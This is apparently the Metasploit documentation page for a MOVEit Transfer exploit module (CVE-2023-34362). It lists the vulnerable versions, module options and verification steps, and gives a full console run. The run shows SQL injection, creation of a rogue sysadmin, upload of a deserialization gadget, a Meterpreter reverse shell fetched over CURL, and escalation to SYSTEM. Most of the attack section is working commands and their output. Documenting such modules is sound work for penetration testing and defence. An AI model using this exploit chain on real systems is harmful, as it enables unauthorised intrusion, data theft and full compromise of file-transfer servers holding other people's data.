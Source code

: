 ## Description
This module exploits an SQL injection vulnerability in the MOVEit Transfer web application
that allows an unauthenticated attacker to gain access to MOVEit Transfer’s database. 
Depending on the database engine being used (MySQL, Microsoft SQL Server, or Azure SQL), an
attacker can leverage an information leak be able to upload a .NET deserialization payload.

## Vulnerable Applications
MOVEit Transfer versions:

| Starting Version | Patched Version     |
|------------------|---------------------|
| 2023.0.0         | 2023.0.3 (15.0.3)   |
| 2022.1.x         | 2022.1.7 (14.1.7)   |
| 2022.0.x         | 2022.0.6 (14.0.6)   |
| 2021.1.x         | 2021.1.6 (13.1.6)   |
| 2021.0.x         | 2021.0.8 (13.0.8)   |
| 2020.1.x         | 2020.1.10 (12.1.10) |

# Installation Instructions
1. Installation requires a valid trial license that can be obtained by going here:
https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has intenet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an admin user.

## Options
### LOGIN_NAME

(Required) Will be used as the login name for the system administrator created by the exploit.  The default is random.

### PASSWORD

(Required) Will be used as the password name for the system administrator created by the exploit.  The default is random.

### USERNAME

(Required) Will be used as the user name for the system administrator created by the exploit.  The default is random.

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/windows/http/moveit_cve_2023_34362`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: `set fetch_srvhost <srvhost>`
* Do: `set lhost <lhost>`
* Do: `run`
* Do: **Verify** you get a session

## Scenarios
### Using MOVEit 15.0.0.3 on Windows Server 2022 21H2
```msf
msf exploit(windows/http/moveit_cve_2023_34362) > show options

Module options (exploit/windows/http/moveit_cve_2023_34362):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LOGIN_NAME  CGN3c8hSeaE      yes       Login Name
   PASSWORD    pnislnpdAWX      yes       Password
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.5.134.242     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                          tasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /api/v1/token    no        Target URI
   USERNAME    wtxRmr5vw        yes       Username
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      lebHSskcwh       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/moveit_cve_2023_34362) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] [0/10] Get the sessionID and siLockLongTermInstID
[*] [1/10] Create New Sysadmin
[*] [2/10] Get API Token
[*] [3/10] Get Folder ID
[*] [4/10] Begin File Upload
[*] [5/10] Leak Encryption Key
[*] [6/10] Generate Gadget
[*] [7/10] Encrypt Gadget
[*] [8/10] Upload Encrypted Gadget
[*] [9/10] Trigger Gadget
[*] [10/10] Cleaning Up
[*] Sending stage (200774 bytes) to 10.5.134.242
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.242:51176) at 2023-06-21 15:35:47 -0500

meterpreter > sysinfo
Computer        : WIN-ED9OLD6JEO6
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-ED9OLD6JEO6\moveitsvc
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
